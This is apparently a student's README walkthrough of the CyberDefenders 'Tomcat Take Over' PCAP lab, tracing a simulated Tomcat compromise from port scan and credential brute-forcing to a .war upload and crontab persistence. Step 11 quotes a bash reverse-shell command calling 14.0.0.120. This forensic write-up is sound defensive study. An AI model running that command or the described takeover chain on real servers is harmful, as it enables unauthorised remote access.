 # 🐱 Tomcat Take Over Lab – CyberDefenders Walkthrough

This project is a full investigation of the **Tomcat Take Over** PCAP challenge on [CyberDefenders.org](https://cyberdefenders.org). It simulates a real-world web server compromise via Apache Tomcat.

Each slide in this repo represents a step I took to analyze and investigate the PCAP file, extract evidence, and answer key forensic questions.

---

## 🛠️ Tools Used

- **Wireshark** – PCAP packet analysis  
- **CyberChef** – Base64 decoding  
- **AbuseIPDB** – IP geolocation  
- **Notepad** – File inspection  
- **PowerShell** – File hashing  
- **Google / OSINT** – Tomcat version lookup  
- **ChatGPT** – Reverse shell decoding  

---

## 🧪 Analysis Steps

### 1. Initial Review in Wireshark  
![](images/slide1.png)  
Opened the PCAP and noted time range: 14 minutes and 30 seconds. Total packets captured: **21,070**.

---

### 2. Protocol & Traffic Overview  
![](images/slide2.png)  
Analyzed Protocol Hierarchy and Conversation statistics. Noted key IP pair: `14.0.0.120 ↔ 10.0.0.112`.

---

### 3. Port Activity & Suspicious Files  
![](images/slide3.png)  
Observed traffic on ports: **8080, 22, 445, 80, 443**. Identified two PDFs: `work_request2024.pdf` – hashed and verified via VirusTotal.

---

### 4. SSH and HTTP Activity  
![](images/slide4.png)  
Noted early SSH packets (starting at packet 137), first HTTP activity from packet 685. Followed the HTTP stream.

---

### 5. Signs of SYN Scan  
![](images/slide5.png)  
IP `14.0.0.120` displayed numerous SYN requests — likely performing a port scan.

---

### 6. Identifying Open Ports  
![](images/slide6.png)  
Open ports on Apache Tomcat server: **22, 8080, 8009**.

---

### 7. POST Requests and File Upload  
![](images/slide7.png)  
Spotted suspicious POST with `.war` file named `JXQOZY.war`, indicated by ZIP header (PK).

---

### 8. Tomcat Admin Access Attempt  
![](images/slide8.png)  
HTTP 401 errors and repeated `GET` requests to `/manager/html` endpoint indicated brute-force login attempts.

---

### 9. Decoding Credentials  
![](images/slide9.png)  
Decoded base64 strings like `YWRtaW46YWRtaW4=` with CyberChef – revealed default credentials like `admin:admin`.

---

### 10. Successful Login  
![](images/slide10.png)  
Found successful login with credentials `admin:tomcat`.

---

### 11. Execution of Reverse Shell  
![](images/slide11.png)  
Discovered shell execution command:  
`/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'`

---

### 12. Crontab Entry for Persistence  
![](images/slide12.png)  
Post-exploitation behavior included a scheduled crontab task for maintaining access.

---

## 🧩 Challenge Questions & Answers

1. **Attacker's IP Address:** `14.0.0.120`  
2. **Origin Country:** China (verified via AbuseIPDB)  
3. **Port for Admin Panel:** `8080`  
4. **Enumeration Tool Used:** Gobuster (`user-agent: gobuster/3.6`)  
5. **Admin Directory Discovered:** `/manager/html`  
6. **Successful Login Credentials:** `admin:tomcat`  
7. **Malicious File Name:** `JXQOZY.war`  
8. **Persistence Mechanism:** Crontab entry running a reverse shell command

---

## ✅ Conclusion

This lab simulated an end-to-end web server compromise through Apache Tomcat. The attacker performed a scan, brute-forced admin credentials, uploaded a `.war` reverse shell, and established persistence. Each step was documented with evidence from the PCAP file.

This project strengthened my skills in packet analysis, threat detection, and red team methodology — with a strong focus on documentation and forensic accuracy.

---

